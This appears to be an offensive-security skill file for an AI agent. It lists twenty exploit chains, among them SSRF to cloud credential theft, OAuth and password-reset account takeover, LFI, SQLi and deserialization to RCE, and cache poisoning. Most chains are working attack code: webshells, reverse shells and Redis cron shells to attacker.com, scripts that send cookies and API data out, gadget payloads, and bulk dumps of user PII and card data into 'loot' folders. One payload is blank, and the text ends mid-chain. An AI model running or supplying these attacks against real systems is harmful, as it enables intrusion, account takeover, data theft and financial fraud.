

# SKILL: chain-detection

## Purpose

Consume all confirmed and candidate findings from an active engagement and automatically construct, score, and document exploit chains — paths that combine multiple low/medium severity bugs into critical attack outcomes. Every chain is a prioritized, evidence-backed attack plan, not a theoretical possibility.

## When to invoke

- After Phase 4 (Vulnerability Research) when ≥2 confirmed or needs-validation findings exist
- Whenever a new confirmed finding lands that could serve as a bridge between two previously unconnected candidates
- Before writing the Phase 7 report — chain analysis is required before reporting; chains become the narrative spine
- When the operator asks "what can we chain?", "what's the worst-case path?", "chain analysis"

## Trigger phrases

"chain these findings", "what can we combine", "worst-case path", "build an attack chain", "chain analysis", "exploit path", "finding graph"

---

## SECTION 1 — Chain Taxonomy

Each entry: **ID**, **name**, **prerequisites**, **bridge conditions**, **outcome**, **CVSS floor**, **canonical PoC shape**.

---

### CHAIN-01: SSRF → Cloud Metadata → Credentials → Full Data Breach

**Prerequisites**
- SSRF (blind or reflected) reaching `169.254.169.254` or `fd00:ec2::254` or `metadata.google.internal`
- Cloud-hosted target (AWS, GCP, Azure, DigitalOcean)
- Instance role with read permissions on storage or secrets service

**Bridge conditions**
- SSRF must reach the link-local metadata address
- For AWS IMDSv2: the SSRF must support custom headers to send `X-aws-ec2-metadata-token`
- Returned credentials must have usable scope (any S3/Secrets/RDS access qualifies)

**Attack path**
```
# Step 1 — get role name
SSRF → GET http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Step 2 — get credentials
SSRF → GET http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>
Response: {"AccessKeyId":"ASIA...","SecretAccessKey":"...","Token":"...","Expiration":"..."}

# Step 3 — configure and enumerate
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...

aws sts get-caller-identity
aws s3 ls
aws secretsmanager list-secrets
aws rds describe-db-instances

# Step 4 — extract
aws s3 sync s3://<bucket> ./loot/data/
aws secretsmanager get-secret-value --secret-id <id>
```

**IMDSv2 bypass** (when PUT token is required)
```
# Some SSRF vectors allow header injection. Inject:
# PUT http://169.254.169.254/latest/api/token
# X-aws-ec2-metadata-token-ttl-seconds: 21600
# Then use returned token in subsequent GET
# Also test: redirect chain from http to http (307 preserves method + body)
```

**Outcome**: Full read across all cloud resources the instance role touches — S3, RDS snapshots, Secrets Manager, SSM Parameter Store, Lambda env vars

**CVSS floor**: 9.1 `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N`

---

### CHAIN-02: Open Redirect + OAuth → Account Takeover

**Prerequisites**
- Open redirect on the OAuth client's domain (the target app)
- OAuth server does not strictly validate `redirect_uri` (accepts prefix match, path traversal, or parameter injection)
- Application uses OAuth for authentication (identity, not just authorization)

**Bridge conditions**
- Open redirect must be on a domain the OAuth server will redirect to
- Attacker controls a server that captures the `code` or `token` fragment

**Attack path**
```
# Step 1 — confirm open redirect
GET /redirect?url=https://attacker.com → 302 Location: https://attacker.com

# Step 2 — confirm lax redirect_uri validation
Normal:  redirect_uri=https://app.target.com/callback
Test:    redirect_uri=https://app.target.com/redirect?url=https://attacker.com
→ if authorization proceeds: lax validation confirmed

# Step 3 — craft malicious authorization URL
https://accounts.provider.com/oauth/authorize
  ?client_id=<app_client_id>
  &response_type=code
  &redirect_uri=https://app.target.com/redirect?url=https://attacker.com/capture
  &scope=openid+profile+email
  &state=<valid_csrf_state>

# Step 4 — delivery
Victim clicks → authenticates → provider redirects to:
  https://app.target.com/redirect?url=https://attacker.com/capture&code=AUTH_CODE
App's open redirect forwards victim to:
  https://attacker.com/capture?code=AUTH_CODE

# Step 5 — redeem code
POST https://accounts.provider.com/oauth/token
  grant_type=authorization_code
  &code=AUTH_CODE
  &redirect_uri=https://app.target.com/redirect?url=https://attacker.com/capture
  &client_id=<id>&client_secret=<secret_if_public_client>
```

**Outcome**: Full account takeover as victim user

**CVSS floor**: 8.1 `CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:N`

---

### CHAIN-03: Self-XSS + CSRF → Stored XSS Against Any User

**Prerequisites**
- Self-XSS: XSS fires only in the attacker's own browser (profile field, bio, display name the owner can see)
- CSRF: the endpoint that stores the self-XSS payload has no CSRF protection, or it can be bypassed
- The stored content is eventually rendered to other users (admin moderation queue, support ticket view, report page)

**Bridge conditions**
- CSRF must target the same endpoint that stores the XSS payload
- Payload must survive the server round-trip (only client-side sanitization in place)

**Attack path**
```
# Step 1 — confirm self-XSS
PUT /api/user/profile
{"bio":""}
→ XSS fires when attacker views own profile only

# Step 2 — confirm CSRF
- Send request without CSRF token → 200 OK (no validation)
- Or: CSRF token in cookie only (double-submit pattern without server check)

# Step 3 — CSRF page that writes XSS to a privileged user's profile
<html>
<body onload="document.getElementById('f').submit()">
<form id="f" method="POST" action="https://target.com/api/user/profile"
      enctype="text/plain">
  <input name='{"bio":"<script src=https://attacker.com/x.js></script>","x":"'
         value='"}'>
</form>
</body>
</html>

# Step 4 — deliver to admin/support → their profile now stores XSS payload
# Step 5 — when admin views their own profile (or it renders to others), XSS fires
```

**Outcome**: Stored XSS in admin context → session theft → full admin access → all-user compromise

**CVSS floor**: 8.8 `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:N`

---

### CHAIN-04: LFI + Log Poisoning → RCE

**Prerequisites**
- LFI where the include executes PHP (not just `file_get_contents`)
- Log file readable via the LFI and writable by incoming HTTP requests
- Log file path known or guessable

**Bridge conditions**
- LFI must be a true PHP `include`/`require` — not just a file read
- PHP code injected into log must not be escaped before writing

**Attack path**
```
# Step 1 — poison Apache access log via User-Agent
curl -A "<?php system(\$_GET['cmd']); ?>" https://target.com/

# Step 2 — include the log
GET /?file=../../../../var/log/apache2/access.log&cmd=id

# Alternative log paths:
/var/log/httpd/access_log        (RHEL/CentOS)
/proc/self/environ               (inject via HTTP_USER_AGENT)
/var/log/auth.log                (inject via SSH username: ssh '<?php...>'@target.com)
/tmp/sess_<PHPSESSID>            (inject via session parameter value)
/var/log/mail.log                (inject via SMTP RCPT TO)

# Step 3 — upgrade to reverse shell
GET /?file=../../../../var/log/apache2/access.log&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/attacker.com/4444+0>%261'
```

**Outcome**: OS command execution as web server user

**CVSS floor**: 9.8 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

---

### CHAIN-05: LFI + phpinfo() → RCE (Race Condition on Tmp File)

**Prerequisites**
- LFI with PHP `include` behavior
- `phpinfo()` accessible (reveals `upload_tmp_dir`, confirms `file_uploads: On`)
- PHP processes multipart uploads and creates temp files for the request duration

**Bridge conditions**
- Multipart POST must reach any PHP endpoint (not necessarily the LFI endpoint)
- Race window between temp file creation and script termination must be hit (typically 0.1–2ms — requires parallel requests)

**Attack path**
```
# Step 1 — confirm phpinfo() reveals:
#   upload_tmp_dir: /tmp
#   file_uploads: On
#   PHP Version: (any, though <7.4 has wider window)

# Step 2 — send slow multipart upload with PHP payload
POST /index.php HTTP/1.1
Content-Type: multipart/form-data; boundary=BOUNDARY

--BOUNDARY
Content-Disposition: form-data; name="f"; filename="f.php"
Content-Type: text/plain

<?php system($_GET['cmd']); ?>
--BOUNDARY--

# Add large padding body to extend temp file lifetime:
# Prepend 1MB of zeros before the PHP payload

# Step 3 — simultaneously hammer LFI with temp file paths
# Thread A: slow uploader (keep connection alive)
# Thread B: LFI probes cycling /tmp/phpAAAAAA through /tmp/phpZZZZZZ
GET /?file=/tmp/phpABCDEF&cmd=id

# Automate:
python3 lfi_race.py --lfi "https://target.com/?file=/tmp/phpXXXXXX&cmd=id" \
                    --upload "https://target.com/" \
                    --threads 50
```

**Outcome**: RCE — works when logs are inaccessible or PHP wrappers blocked

**CVSS floor**: 8.1 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H`

---

### CHAIN-06: SQLi + FILE Privilege → RCE

**Prerequisites**
- SQL injection (UNION-based or stacked queries — blind is insufficient alone)
- MySQL running with `FILE` privilege for the DB user
- `secure_file_priv` empty or set to a path within the web root
- Web root path known or derivable

**Bridge conditions**
- `SELECT ... INTO OUTFILE` must write to the web root
- Target file must not already exist (`INTO OUTFILE` fails on existing files)
- PHP/JSP execution enabled for the written file

**Attack path**
```
# Step 1 — confirm FILE privilege
' UNION SELECT 1,user(),3,4-- -
' UNION SELECT 1,super_priv,3,4 FROM mysql.user WHERE user=user()-- -

# Step 2 — find web root
' UNION SELECT 1,@@datadir,3,4-- -
' UNION SELECT 1,load_file('/etc/apache2/sites-enabled/000-default.conf'),3,4-- -

# Step 3 — write webshell
' UNION SELECT 1,"<?php system($_GET['cmd']);?>",3,4
  INTO OUTFILE '/var/www/html/sx.php'-- -

# Step 4 — execute
GET /sx.php?cmd=id

# If secure_file_priv blocks, try alternate roots:
/var/www/
/srv/http/
/usr/share/nginx/html/
/home/<user>/public_html/
```

**Outcome**: Webshell — OS command execution

**CVSS floor**: 9.8 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

---

### CHAIN-07: XXE + SSRF → Internal Service Access

**Prerequisites**
- XXE: XML parser processes external entities (`SYSTEM` keyword not disabled)
- Internal services exist (metadata endpoint, admin console, Redis, Elasticsearch)
- XXE response is reflected OR OOB channel available

**Bridge conditions**
- Parser must fetch external DTD or entity URLs
- Response must return in application response or via OOB
- Internal service must respond meaningfully to HTTP GET

**Attack path**
```
# Step 1 — confirm XXE with OOB
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://collaborator.attacker.com/xxe">]>
<root>&xxe;</root>

# Step 2 — probe internal network
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://10.0.0.1:6379/">]>        (Redis)
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://10.0.0.1:9200/">]>        (Elasticsearch)
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://10.0.0.1:8080/manager">]> (Tomcat)

# Step 3 — read files
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///var/www/html/.env">]>

# Step 4 — blind XXE with base64 OOB exfil (PHP)
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>

# evil.dtd hosted on attacker.com:
<!ENTITY % payload "<!ENTITY exfil SYSTEM 'http://attacker.com/?d=%file;'>">
%payload;

# Step 5 — pivot to Redis: write SSH authorized_keys via SLAVEOF or CONFIG SET dir
```

**Outcome**: Internal network access, file read, potential RCE via internal service pivot

**CVSS floor**: 9.1 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:L/A:N`

---

### CHAIN-08: Path Traversal + File Inclusion → RCE

**Prerequisites**
- Path traversal allowing reads outside the web root
- A server-side include or template mechanism that executes fetched content
- A writable location reachable via traversal (combined with upload or log injection)

**Bridge conditions**
- Traversal must cross from static file serving into an execution context
- Typically requires: traversal to upload dir + race (CHAIN-05), OR traversal to a log file + log poisoning (CHAIN-04)

**Attack path**
```
# Step 1 — confirm traversal
GET /static/../../../../etc/passwd → file contents returned

# Step 2 — find include/execution mechanism
# URL params to fuzz: file, page, template, include, path, view, load, render

# Step 3a — traversal + upload (combine with CHAIN-21 upload bypass)
# Upload shell.php to /uploads/ → include via traversal:
GET /page?template=../../../../uploads/shell.jpg

# Step 3b — traversal + log poisoning (combine with CHAIN-04)
# Poison log → include via traversal path to log file

# Step 3c — zip slip (server extracts archives)
# Create zip with entry: ../../var/www/html/shell.php
# Upload zip → extraction writes shell to web root
python3 -c "
import zipfile
with zipfile.ZipFile('slip.zip','w') as z:
    z.write('shell.php','../../var/www/html/shell.php')
"
```

**Outcome**: RCE

**CVSS floor**: 9.8

---

### CHAIN-09: JWT Weak Secret + IDOR → Full Account Takeover

**Prerequisites**
- JWT authentication where the secret is weak (dictionary-crackable) or `alg:none` accepted
- IDOR: object IDs are sequential or guessable
- Application trusts JWT `sub` or `userId` claim to determine identity

**Bridge conditions**
- Forged JWT accepted by all API endpoints
- IDOR endpoint returns or modifies data based solely on the JWT claim

**Attack path**
```
# Step 1 — decode JWT
echo 'eyJ...' | cut -d. -f1-2 | base64 -d 2>/dev/null

# Step 2 — test alg:none
python3 -c "
import base64, json
h = base64.b64encode(json.dumps({'alg':'none','typ':'JWT'}).encode()).rstrip(b'=').decode()
p = base64.b64encode(json.dumps({'sub':'1','role':'admin','iat':9999999999}).encode()).rstrip(b'=').decode()
print(h+'.'+p+'.')
"

# Step 3 — crack weak secret
hashcat -a 0 -m 16500 <JWT> /usr/share/wordlists/rockyou.txt
jwt-hack crack --token <JWT> --wordlist rockyou.txt

# Step 4 — forge admin token
jwt-hack forge --payload '{"sub":"1","role":"admin","iat":9999999999}' \
               --secret <cracked_secret> --alg HS256

# Step 5 — IDOR enumeration with forged token
for id in $(seq 1 50000); do
  curl -s -H "Authorization: Bearer $(jwt-hack forge --payload \"{\\\"sub\\\":\\\"$id\\\"}\" \
    --secret <secret>)" https://target.com/api/users/$id/profile
done | jq -r '.email' | tee loot/data/all_emails.txt
```

**Outcome**: Read/write access to all user accounts; password reset for any user

**CVSS floor**: 9.8

---

### CHAIN-10: Prototype Pollution + Gadget Chain → RCE in Node.js

**Prerequisites**
- Prototype pollution: attacker can set `__proto__` properties (JSON body, query params, lodash merge/clone, `flat`, `qs` library)
- Node.js backend with a gadget-bearing library (Pug, Handlebars, `child_process` spawn with options object)

**Bridge conditions**
- Pollution must survive to the gadget invocation
- The gadget must use polluted Object.prototype properties in a dangerous context

**Attack path**
```
# Step 1 — confirm prototype pollution
POST /api/merge
{"__proto__": {"polluted": "yes"}}
GET /api/status → response includes "polluted":"yes" in any field → confirmed

# Step 2 — Pug template engine gadget
POST /api/merge
{
  "__proto__": {
    "block": {
      "type": "Text",
      "line": "process.mainModule.require('child_process').execSync('curl https://attacker.com/rce')"
    }
  }
}
# Trigger any Pug render → RCE

# Step 3 — child_process.fork NODE_OPTIONS gadget (Node ≥ 12)
POST /api/merge
{
  "__proto__": {
    "NODE_OPTIONS": "--require /proc/self/fd/0",
    "shell": true,
    "cmd": "curl https://attacker.com/$(id)"
  }
}

# Step 4 — query param vector
GET /search?__proto__[shell]=true&__proto__[cmd]=id
# Works when qs or querystring library processes params and child_process is used downstream
```

**Outcome**: RCE as the Node.js process user

**CVSS floor**: 9.8

---

### CHAIN-11: Cache Poisoning + XSS → Stored XSS at Scale

**Prerequisites**
- Web cache (CDN, Varnish, Nginx cache, Squid) serving responses to all users
- An unkeyed HTTP header or parameter that the application reflects in responses
- XSS possible in the reflected content
- Cache TTL > 0 on the affected endpoint

**Bridge conditions**
- Cache must cache the poisoned response (verify via `Age` header incrementing)
- The unkeyed input must not appear in the `Vary` header (otherwise it becomes keyed)

**Attack path**
```
# Step 1 — find unkeyed headers
for header in "X-Forwarded-Host" "X-Host" "X-Original-URL" "X-Rewrite-URL" \
              "X-Forwarded-Server" "X-HTTP-Host-Override"; do
  curl -si -H "$header: attacker.com" https://target.com/js/app.js | grep -i attacker
done

# Step 2 — verify cacheability
curl -si https://target.com/js/app.js | grep -i "cache-control\|age\|x-cache"
# Look for: Cache-Control: public, max-age=... and Age: 0 → Age: N on repeat

# Step 3 — poison with XSS payload
curl -H 'X-Forwarded-Host: attacker.com"/><script>document.location="https://attacker.com/c?c="+document.cookie</script>' \
     https://target.com/js/app.js

# Step 4 — verify poison is cached
curl https://target.com/js/app.js | grep -i '<script'
# Subsequent users loading /js/app.js receive poisoned response

# Step 5 — reset after testing
curl "https://target.com/js/app.js?cachebust=$(date +%s)" > /dev/null
```

**Outcome**: Reflected XSS served from cache to all users without interaction — effectively stored XSS at CDN scale

**CVSS floor**: 9.3 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:L/A:N`

---

### CHAIN-12: Info Disclosure → Credential Reuse → Admin Access → RCE

**Prerequisites**
- Info disclosure revealing credentials (backup file, `.git` exposure, debug endpoint, `.env`, stack trace, phpinfo)
- Password reuse across services
- Admin panel or privileged service accessible (WordPress admin, Jenkins, SSH, Redis, database)
- Admin surface has a code execution path

**Bridge conditions**
- Disclosed credentials must authenticate to at least one admin surface
- Admin surface has a code exec path (plugin upload, script console, theme editor)

**Attack path**
```
# Step 1 — extract credentials from disclosure
GET /.git/config         → remote URL with embedded credentials
GET /.env                → DB_PASSWORD=..., SECRET_KEY=..., REDIS_PASSWORD=...
GET /backup.tar.gz       → extract config.php, application.yml, settings.py
GET /api/debug/config    → JSON dump of all environment variables
GET /phpinfo.php         → environment variables section

# Step 2 — spray credentials across all discovered services
for service in ssh mysql redis jenkins wp-admin; do
  try_login $service <extracted_user> <extracted_password>
done

# Step 3a — WordPress → RCE
# Appearance → Theme Editor → 404.php → insert: <?php system($_GET['c']); ?>
curl "https://target.com/?p=99999999&c=id"

# Step 3b — Jenkins → RCE
curl -X POST https://target.com/jenkins/script \
  --data 'script=def+cmd="id".execute();println+cmd.text' \
  -u admin:<password>

# Step 3c — MySQL → write shell (see CHAIN-06 steps 3-4)

# Step 3d — Redis → write cron or authorized_keys
redis-cli -h target.com -a <password> CONFIG SET dir /var/spool/cron/
redis-cli -h target.com -a <password> CONFIG SET dbfilename root
redis-cli -h target.com -a <password> SET cron "\n* * * * * bash -i >& /dev/tcp/attacker.com/4444 0>&1\n"
redis-cli -h target.com -a <password> BGSAVE
```

**Outcome**: Full system compromise — depends on admin surface but consistently achieves RCE

**CVSS floor**: 9.8

---

### CHAIN-13: Subdomain Takeover + Cookie Scope → Session Hijack

**Prerequisites**
- Dangling DNS CNAME pointing to an unclaimed third-party service (GitHub Pages, Heroku, Fastly, S3, Azure, Netlify, Surge.sh)
- Session cookie scoped to parent domain (`Domain=.target.com`)
- Victim authenticates to `app.target.com` — cookie is sent to all `*.target.com`

**Bridge conditions**
- Attacker can claim the subdomain on the third-party platform
- Cookies are sent to the taken-over subdomain (check `Domain=` attribute in Set-Cookie)

**Attack path**
```
# Step 1 — identify dangling CNAME
dig CNAME stale.target.com
→ stale.target.com. CNAME someuser.github.io.

curl -I https://someuser.github.io/
→ 404 "There isn't a GitHub Pages site here" → claimable

# Step 2 — claim subdomain on GitHub Pages
# Create account: someuser
# Create repo: someuser/someuser.github.io
# Add CNAME file: stale.target.com
# Wait for propagation (1–10 min)

# Step 3 — deploy cookie harvesting page to stale.target.com
# index.html:
<script>
fetch('https://attacker.com/collect?c='+encodeURIComponent(document.cookie),
      {mode:'no-cors'})
</script>

# Step 4 — confirm cookie is sent
curl -v -H "Cookie: session=test" https://stale.target.com/
→ Cookie: session=test in request → confirmed cookie scope issue

# Step 5 — deliver link to victim → session captured → replay
curl -H "Cookie: session=<captured>" https://app.target.com/api/user
```

**Outcome**: Session hijack → full account access as victim

**CVSS floor**: 8.8

---

### CHAIN-14: CORS Misconfiguration + XSS → Cross-Origin Data Theft

**Prerequisites**
- CORS: `Access-Control-Allow-Origin` reflects arbitrary origin, or allows `null`, with `Access-Control-Allow-Credentials: true`
- XSS execution context in victim's browser (attacker-hosted page that victim can be sent to is sufficient)
- Sensitive data returned in authenticated API responses

**Bridge conditions**
- CORS must allow the attacker's origin WITH credentials
- Victim's browser must execute the XSS page while their session cookies are active

**Attack path**
```
# Step 1 — confirm CORS misconfiguration
curl -si \
  -H "Origin: https://attacker.com" \
  -H "Cookie: session=<valid_session>" \
  https://api.target.com/user/profile \
  | grep -i "access-control"
# → Access-Control-Allow-Origin: https://attacker.com
# → Access-Control-Allow-Credentials: true

# Also test null origin (iframe sandbox bypass):
curl -si -H "Origin: null" -H "Cookie: session=..." https://api.target.com/user/profile

# Step 2 — XSS page on attacker.com
<script>
const endpoints = [
  '/api/user/profile',
  '/api/user/payment-methods',
  '/api/user/addresses',
  '/api/admin/users'
];
endpoints.forEach(ep => {
  fetch('https://api.target.com'+ep, {credentials:'include'})
    .then(r => r.json())
    .then(d => fetch('https://attacker.com/collect?ep='+encodeURIComponent(ep)+
                     '&d='+encodeURIComponent(btoa(JSON.stringify(d))),
                     {mode:'no-cors'}));
});
</script>

# Step 3 — deliver page URL to victim (phishing, stored referral, etc.)
# Victim's browser fires authenticated cross-origin requests
# Attacker's server logs receive full JSON responses
```

**Outcome**: Complete data exfiltration from all CORS-accessible authenticated endpoints

**CVSS floor**: 8.8

---

### CHAIN-15: Password Reset + Host Header Injection → Account Takeover

**Prerequisites**
- Password reset flow sends a link generated from `Host` header (not hardcoded)
- No whitelist validation on `Host` header
- Link includes a single-use token valid for password change

**Bridge conditions**
- Application must generate reset URL using `$_SERVER['HTTP_HOST']`, `request.host`, or equivalent
- Attacker controls a server that receives HTTP requests (or uses a collaborator URL)

**Attack path**
```
# Step 1 — test Host header injection on reset endpoint
POST /forgot-password HTTP/1.1
Host: attacker.com
Content-Type: application/x-www-form-urlencoded

email=victim@target.com

→ Email sent to victim contains: https://attacker.com/reset?token=ABC123DEF456

# Step 2 — victim clicks link (expecting a legitimate password reset)
# Request arrives at attacker.com:
# GET /reset?token=ABC123DEF456

# Step 3 — use token on real site
POST https://target.com/reset-password
Content-Type: application/json
{"token":"ABC123DEF456","password":"AttackerOwns1!"}

# Variations if Host is validated but others are not:
POST /forgot-password HTTP/1.1
Host: target.com
X-Forwarded-Host: attacker.com

# Or absolute-URI:
POST https://target.com/forgot-password HTTP/1.1
Host: attacker.com
```

**Outcome**: Account takeover for any user whose email address is known — no victim interaction beyond clicking expected email

**CVSS floor**: 9.8

---

### CHAIN-16: Mass Assignment + Privilege Escalation → Admin Takeover

**Prerequisites**
- API endpoint binds JSON body directly to a model without field whitelisting (Rails `permit`, Django `fields`, Express without schema validation)
- User model has a privileged field: `role`, `isAdmin`, `tier`, `permissions`, `approved`, `verified`
- Field is not explicitly blocked on registration or profile update endpoint

**Bridge conditions**
- Privileged field must be accepted and persisted (not silently dropped)
- Elevated role unlocks additional API endpoints

**Attack path**
```
# Step 1 — baseline registration
POST /api/register
{"username":"test","email":"test@test.com","password":"Test123!"}

# Step 2 — inject privileged fields
POST /api/register
{
  "username":"attacker",
  "email":"attacker@test.com",
  "password":"Test123!",
  "role":"admin",
  "isAdmin":true,
  "tier":"enterprise",
  "approved":true,
  "verified":true,
  "emailVerified":true
}

# Step 3 — confirm privilege
GET /api/user/me
→ {"role":"admin","isAdmin":true,...}

# Step 4 — if registration is locked, test profile update endpoint
PUT /api/user/profile
{"displayName":"x","role":"admin","isAdmin":true}

# Step 5 — access admin endpoints
GET /api/admin/users
DELETE /api/admin/users/1
POST /api/admin/users/1/reset-password
GET /api/admin/settings
```

**Outcome**: Admin account creation or instant privilege escalation to admin

**CVSS floor**: 9.8

---

### CHAIN-17: Race Condition + Transaction Logic → Financial Fraud

**Prerequisites**
- Financial transaction endpoint (withdrawal, transfer, purchase, promo code redemption)
- Balance check and deduction not performed atomically (SELECT then UPDATE without row lock)
- Server accessible within 10–200ms (race window timing requirement)

**Bridge conditions**
- The TOCTOU window between check and deduction must allow parallel requests to both pass
- Sufficient parallelism to reliably land within the window

**Attack path**
```
# Step 1 — identify transaction and measure timing
for i in {1..5}; do
  time curl -s -o /dev/null -w "%{time_total}\n" \
    -X POST https://target.com/api/withdraw \
    -H "Cookie: session=<valid>" \
    -d '{"amount":1,"to":"attacker"}'
done

# Step 2 — HTTP/2 single-packet attack (most reliable — all requests land <1ms apart)
# Use Turbo Intruder (Burp Suite) with single-packet attack mode
# Or:
python3 race_engine.py \
  --url https://target.com/api/withdraw \
  --method POST \
  --data '{"amount":100,"to":"attacker_account"}' \
  --cookie "session=<valid>" \
  --concurrent 20 \
  --http2

# Step 3 — confirm success
GET /api/user/balance
→ balance is negative or withdrawals > starting balance

# Step 4 — promo/coupon variant (lower barrier)
python3 race_engine.py \
  --url https://target.com/api/apply-promo \
  --data '{"code":"SAVE50"}' \
  --cookie "session=<valid>" \
  --concurrent 30
→ coupon applied 15 times instead of 1
```

**Outcome**: Financial fraud — balance bypass, unlimited coupon redemption, negative balance exploitation

**CVSS floor**: 9.1

---

### CHAIN-18: Deserialization + Gadget Chain → RCE

**Prerequisites**
- Application deserializes attacker-controlled data: Java `ObjectInputStream`, PHP `unserialize()`, Python `pickle`, Ruby `Marshal.load`, .NET `BinaryFormatter`, YAML.load (Ruby/Python without SafeLoader)
- A gadget chain exists in the loaded classpath/libraries

**Bridge conditions**
- Deserialized data must reach a dangerous sink (Runtime.exec, eval, system, shell_exec)
- Gadget chain must be compatible with loaded library versions (check pom.xml/composer.json)

**Attack path**
```
# Step 1 — identify deserialization points
# Java: base64 starting with rO0AB... in cookies, hidden fields, API bodies
# PHP: O:... or a:... patterns in cookies/params
# Python: base64 starting with gASV... (pickle)
# .NET: AAEAAAD... in viewstate or cookies

# Step 2 — Java with ysoserial (try each gadget until one lands)
for gadget in CommonsCollections1 CommonsCollections2 CommonsCollections3 \
              CommonsCollections4 CommonsCollections5 CommonsCollections6 \
              CommonsCollections7 Spring1 Groovy1 ROME CommonsBeanutils1; do
  java -jar ysoserial.jar $gadget 'curl https://attacker.com/rce' \
    | base64 -w0 > exploits/working/java_$gadget.b64
  # Test each by sending as the deserialization point value
done

# Step 3 — PHP with PHPGGC
phpggc -l | grep RCE
phpggc Laravel/RCE1 system 'id' --base64
phpggc Symfony/RCE4 exec 'curl https://attacker.com/$(id)' --base64

# Step 4 — Python pickle
python3 -c "
import pickle, os, base64
class E(object):
    def __reduce__(self):
        return (os.system, ('curl https://attacker.com/\$(id)',))
print(base64.b64encode(pickle.dumps(E())).decode())
"

# Step 5 — send payload in deserialization point
curl -b "session=<java_payload_base64>" https://target.com/
```

**Outcome**: RCE as application user

**CVSS floor**: 9.8

---

### CHAIN-19: GraphQL Introspection + IDOR → Full Data Access

**Prerequisites**
- GraphQL endpoint with introspection enabled in production
- IDOR in GraphQL queries: ID arguments not scoped to authenticated user
- Sensitive data accessible via schema (PII, payment data, private content, credentials)

**Bridge conditions**
- Introspection reveals full schema including sensitive type/field names
- ID-based queries accept arbitrary IDs beyond the authenticated user's own

**Attack path**
```
# Step 1 — confirm introspection
curl -s -X POST https://target.com/graphql \
  -H 'Content-Type: application/json' \
  -d '{"query":"{__schema{queryType{name}}}"}' | jq .

# Step 2 — dump full schema
curl -s -X POST https://target.com/graphql \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=<valid>' \
  -d '{"query":"{ __schema { types { name fields { name type { name kind ofType { name } } } } } }"}' \
  | jq . > recon/tech/graphql_schema.json

# Step 3 — identify sensitive fields
jq '[.data.__schema.types[] | select(.fields) | 
    {type: .name, fields: [.fields[].name | 
    select(test("password|credit|ssn|token|secret|key|phone|dob|address"))]}
    | select(.fields | length > 0)]' recon/tech/graphql_schema.json

# Step 4 — test IDOR
curl -s -X POST https://target.com/graphql \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=<own_session>' \
  -d '{"query":"{ user(id: \"2\") { email phone creditCards { number cvv } } }"}' | jq .

# Step 5 — batch dump all users
python3 graphql_dump.py \
  --url https://target.com/graphql \
  --cookie "session=<valid>" \
  --query 'user(id: "ID") { email phone creditCards { number } }' \
  --range 1 100000 \
  --batch 100 \
  --output loot/data/all_users.json
```

**Outcome**: Full database extraction via GraphQL — all user PII, payment data, private content

**CVSS floor**: 9.1

---

### CHAIN-20: Blind SSRF + DNS Rebinding → Internal Network Pivot

**Prerequisites**
- Blind SSRF: server fetches attacker-controlled URLs (no response returned)
- DNS rebinding: attacker controls a domain with TTL=1 that alternates resolution between attacker IP and an internal IP
- Internal services trust requests from localhost or RFC1918 ranges

**Bridge conditions**
- SSRF must follow redirects or make multiple requests to the same domain (allowing TTL to expire between)
- For browser-based SSRF: SOP check passes on first resolution, second fetch hits internal IP

**Attack path**
```
# Step 1 — confirm blind SSRF
curl https://target.com/api/fetch?url=http://collaborator.attacker.com/blind
→ DNS callback and HTTP hit received

# Step 2 — set up DNS rebinding
# Option A: Use rbndr.us (public rebinding tool):
#   <external_ip>.<internal_ip>.rbndr.us alternates between the two
# Option B: Deploy custom bind9 with TTL=1, alternating A records
# Option C: Use singularity framework

# Step 3 — two-phase rebinding against metadata
Phase 1: SSRF resolves rebind.attacker.com → attacker_ip (serve normal 200)
         App confirms URL is "safe" (no block on attacker_ip)
Phase 2: TTL expires, SSRF re-resolves rebind.attacker.com → 169.254.169.254
         Subsequent request hits metadata service
         Attacker receives metadata content at OOB endpoint

# Step 4 — pivot to internal admin panel
# Configure rebinding: attacker_ip → 10.0.0.1 (internal admin on :8080)
curl https://target.com/api/fetch?url=http://rebind.attacker.com:8080/admin
# First hit: lands on attacker.com → no block
# Second hit: lands on 10.0.0.1:8080/admin → response via timing / OOB

# Step 5 — map internal network via SSRF timing
python3 ssrf_scan.py \
  --ssrf "https://target.com/api/fetch?url=http://10.0.0.OCTET" \
  --range 1-254 \
  --ports 22,80,443,3306,6379,8080,8443,9200 \
  --timing-threshold 2000
```

